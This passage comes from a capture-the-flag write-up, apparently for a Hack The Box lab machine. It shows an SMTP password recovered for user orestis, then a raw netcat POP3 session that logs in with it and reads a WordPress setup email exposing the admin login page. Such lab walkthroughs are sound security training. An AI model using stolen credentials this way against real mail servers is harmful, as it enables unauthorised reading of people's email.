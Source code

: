 we got the SMTP password for orestis --> `kHGuERB29DNiNE`

# POP3 (port 110)
As this machine has POP3 which has easy to understand commands, rather than setting up a mail client, we will interact with POP3 using raw commands   
with a simple google search, we can easily find all the POP3 commands

![](images/pop3commands.png)

```console
root@kali:~# nc -nv 10.10.10.17 110
(UNKNOWN) [10.10.10.17] 110 (pop3) open
+OK Dovecot ready.
USER orestis
+OK
PASS kHGuERB29DNiNE
+OK Logged in.
STAT
+OK 2 1491
LIST
+OK 2 messages:
1 977
2 514
.
RETR 1
+OK 977 octets
Return-Path: <www-data@brainfuck.htb>
X-Original-To: orestis@brainfuck.htb
Delivered-To: orestis@brainfuck.htb
Received: by brainfuck (Postfix, from userid 33)
        id 7150023B32; Mon, 17 Apr 2017 20:15:40 +0300 (EEST)
To: orestis@brainfuck.htb
Subject: New WordPress Site
X-PHP-Originating-Script: 33:class-phpmailer.php
Date: Mon, 17 Apr 2017 17:15:40 +0000
From: WordPress <wordpress@brainfuck.htb>
Message-ID: <00edcd034a67f3b0b6b43bab82b0f872@brainfuck.htb>
X-Mailer: PHPMailer 5.2.22 (https://github.com/PHPMailer/PHPMailer)
MIME-Version: 1.0
Content-Type: text/plain; charset=UTF-8

Your new WordPress site has been successfully set up at:

https://brainfuck.htb

You can log in to the administrator account with the following information:

Username: admin
Password: The password you chose during the install.
Log in here: https://brainfuck.htb/wp-login.php
```